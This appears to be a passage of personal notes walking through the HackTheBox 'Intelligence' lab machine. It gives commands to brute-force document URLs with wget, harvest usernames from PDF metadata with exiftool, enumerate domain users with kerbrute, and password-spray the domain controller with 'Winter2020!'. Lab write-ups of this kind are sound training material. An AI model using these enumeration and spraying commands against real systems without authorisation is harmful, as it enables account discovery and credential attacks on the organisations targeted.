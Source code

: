 Result
![[HackTheBox/Windows/attachments/Pasted image 20250514214929.png]]

Now construct the wget against the server with the files wordlist to try to read files 

```
for i in $(cat ../files); do wget http://10.10.10.248/documents/$i; done
```

![[HackTheBox/Windows/attachments/Pasted image 20250514215951.png]]

Review what files we were able to download 

![[HackTheBox/Windows/attachments/Pasted image 20250514220128.png]]
View the metadata fields of the pdfs using this command
```
exiftool *.pdf | awk -F: '{print $1}' | sort -u 
```

![[HackTheBox/Windows/attachments/Pasted image 20250514220448.png]]

View the modification date/time of the files

```
exiftool *.pdf | grep Modification | sort -u
```

![[HackTheBox/Windows/attachments/Pasted image 20250514220644.png]]
- everything is the same

View the creator of the files
```
exiftool *.pdf | grep Creator | awk '{print $3}' > users
```
![[HackTheBox/Windows/attachments/Pasted image 20250514220828.png]]
- now we have a list of usernames

### kerbrute

Enumerate users in a domain
```
./kerbrute userenum --dc 10.10.10.248 -d intelligence.htb users
```

There's 84 users 
![[HackTheBox/Windows/attachments/Pasted image 20250514221425.png]]

Password spraying 

```
./kerbrute passwordspray --dc 10.10.10.248 -d intelligence.htb users 'Winter2020!'
```
![[HackTheBox/Windows/attachments/Pasted image 20250514221537.png]]
- no hits

